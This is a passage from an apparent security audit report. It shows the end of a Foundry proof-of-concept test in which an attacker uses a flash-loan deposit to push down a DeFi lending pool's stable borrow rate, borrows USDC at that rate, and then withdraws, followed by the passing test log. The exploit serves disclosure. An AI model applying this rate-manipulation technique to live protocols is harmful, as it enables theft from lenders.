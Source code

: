 ```solidity

        console.log("start the stable borrow");
        // Deposit avax as coll for alice
        _depositAvax(alice, aliceAccountId, aliceLoanIds[0], 2000e18);

        // Perform a stable borrow of 1000 USDC
        uint256 stableBorrowAmount = 1000e6; // 1000 USDC
        uint256 maxStableRate = 1e18; // Adjust as needed

        _borrowStable(
            alice,
            aliceAccountId,
            aliceLoanIds[0],
            hubPoolUsdc.getPoolId(),
            stableBorrowAmount,
            _getStableRateUsdc() * 2
        );

        (
            bytes32 accountId,
            uint16 loanTypeId,
            uint8[] memory colPools,
            uint8[] memory borPools,
            LoanManagerState.UserLoanCollateral[] memory colls,
            LoanManagerState.UserLoanBorrow[] memory borrows
        ) = loanManager.getUserLoan(aliceLoanIds[0]);

        console.log("borrowstableRate of loan         :", borrows[0].stableInterestRate);
        // Attacker now withdraws the excess large liquidity he deposited to manipulate utilization ratio
        // Withdraw the large USDC deposit
        _withdraw(alice, aliceAccountId, aliceLoanIds[0], hubPoolUsdc.getPoolId(), largeUsdcDeposit, false);

        console.log("Stable USDC rate after withdrawal:", _getStableRateUsdc());
    }
}

```

to execute the poc, please run `forge test --mt test_ManipulateStableBorrowRateThrough -vvv` This is the expected result, after running the poc, in a terminal

```log
Ran 1 test for test/pocs/manipulateStableRatePoC.sol:Pocs
[PASS] test_ManipulateStableBorrowRateThrough() (gas: 2824202)
Logs:
  POOL + Borrows initialized + time has passed
  Initial borrowstableRate of pool : 80996227465354582
  Start Attack by performing large USDC deposit through flashLoan
  borrowstableRate after deposit   : 72118961254591337
  start the stable borrow
  borrowstableRate of loan         : 72118961254591337
  Stable USDC rate after withdrawal: 81981978627936564

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 513.01ms (16.62ms CPU time)

Ran 1 test suite in 516.42ms (513.01ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
